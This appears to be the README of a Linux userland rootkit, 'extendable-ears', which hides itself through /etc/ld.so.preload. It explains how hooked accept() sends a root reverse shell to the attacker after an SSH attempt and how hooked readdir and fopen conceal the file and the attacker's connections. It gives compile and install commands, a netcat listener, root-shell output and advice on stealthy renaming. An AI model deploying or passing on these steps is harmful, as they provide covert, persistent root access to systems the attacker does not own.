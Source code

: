 # extendable-ears
A Linux userland rootkit that hooks function calls via a malicious shared library in `/etc/ld.so.preload`.
Upon failed SSH authentication to the target, the target will send a reverse shell back to the attacker.

### How it works
- Function calls are hooked by placing a shared library (this rootkit) into `/etc/ld.so.preload`
- To hide the rootkit's presence, `readdir()` and `readdir64()` are hooked to prevent `ld.so.preload` from being listed in directory outputs (like ls)
    - Although, listing `/etc/ld.so.preload` directly will show the file :/ (will have to add more hooks to prevent this I think)
- To send a shell the attacker, `accept()` is hooked and extendable-ears reads the client address from the `accept()` function.
    - If the client address is the attacker's IP (set in the config file), extendable-ears will send a reverse shell back to the attacker
- To hide connections from netstat, `fopen()` is hooked to check whether `/proc/net/tcp` (which stores TCP connection info) is being read.
    - If it is, extendable-ears reads /proc/net/tcp into a temporary file itself and excludes any mentions of the attacker IP
    - It then writes out the temporary file to the user instead of /proc/net/tcp

### Limitations
- Must be installed as root
    - (otherise the accept() hook won't work)

## Configure & Compile
In `extendable-ears.c` modify:
- ATTACKER_IP - change this to your own attacking IP
- ATTACKER_IP_HEX_NBO 
    - This is the hex value of your attacking IP in network-byte-order, used for hiding your netstat connection on the target. Example below:
        - rour attacking IP = 84.127.24.22
        - reverse it to get the network-byte-order = 22.24.127.84
        - convert each of the 4 numbers to hex = 16.18.7f.54
        - insert this value into ATTACKER_IP_HEX_NBO without dot-decimal notation = 16187f54
- ATTACKER_PORT - the port you want the reverse shell to connect on

Compile:
```bash
root@attacker:~# gcc extendable-ears.c -o extendable-ears.so -fPIC -shared -ldl -D_GNU_SOURCE
```

## Installation
On the target, copy the shared library/rootkit to where the other shared libraries reside.

64-bit example:
```bash
root@victim:~# cp extendable-ears.so /lib/x86_64-linux-gnu/
```
And copy the path of the rootkit into /etc/ld.so.preload.
```bash
root@victim:~# echo "/lib/x86_64-linux-gnu/extendable-ears.so" > /etc/ld.so.preload
```

I would advise renaming `extendable-ears.so` to something more stealthy.

### Verify installation
You can check if the rootkit is installed by running```ldd``` and checking that your malicious library gets loaded.
```bash
root@victim:~# ldd /usr/sbin/sshd
	linux-vdso.so.1 (0x00007ffe9214c000)
	/lib/x86_64-linux-gnu/extendable-ears.so (0x00007f17ed354000)
    [...]
```
Also check /etc/ld.so.preload for your entry.
```bash
root@victim:~# cat /etc/ld.so.preload 
/lib/x86_64-linux-gnu/extendable-ears.so
```

## Usage
1. Install as above
2. Start a listener to receive reverse shell
```bash
root@attacker:~# nc -lvnp 9001
```
3. SSH to the target machine. A shell should spawn on your listener.
It (almost) always doens't work the first time, so SSH twice.
```bash
root@attacker:~# ssh hey@10.11.0.56
hey@10.11.0.56's password:
^C
root@attacker:~# ssh hey@10.11.0.56
hey@10.11.0.56's password:
^C
```
```bash
root@attacker:~# nc -lvnp 9001
[...]
Connection received
[+] spawning shell... 
id
uid=0(root) gid=0(root) groups=0(root)
```

## Remove rootkit
Delete `/etc/ld.so.preload` and delete the maliciuos library. 
Nothing else needed.
```bash
root@victim:~# rm /etc/ld.so.preload
root@victim:~# rm /lib/x86_64-linux-gnu/extendable-ears.so
```

## Improvements
- Hide /etc/ld.so.preload better
- SSL encrypted reverse shell

## Issues
- accept() hook won't spawn reverse shell first time round, always takes at least 2 tries.
- When rootkit is loaded, commands that don't exist won't produce an error (probably something to do with dup2 or readdir)
    ```bash
    root@victim:~# asdfs
    root@victim:~# 
    ```